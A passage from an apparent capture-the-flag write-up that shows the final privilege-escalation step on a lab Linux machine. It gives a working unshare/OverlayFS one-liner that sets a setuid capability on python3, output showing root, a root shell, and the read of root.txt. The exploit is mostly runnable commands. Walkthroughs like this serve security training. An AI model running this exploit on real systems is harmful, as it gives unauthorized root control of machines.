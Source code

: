 It could also be related to the value of the `security.capability` attribute.

#### Run Exploit

The exploit I like is this:

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'

```

This code escalates and runs the `id` command, and pasting it in returns a user id of root:

```
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)

```

If I update that by replacing `id` with `bash`:

```
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'
root@analytics:~#

```

And grab `root.txt`:

```
root@analytics:/root# cat root.txt
4fcb8f1e************************

```






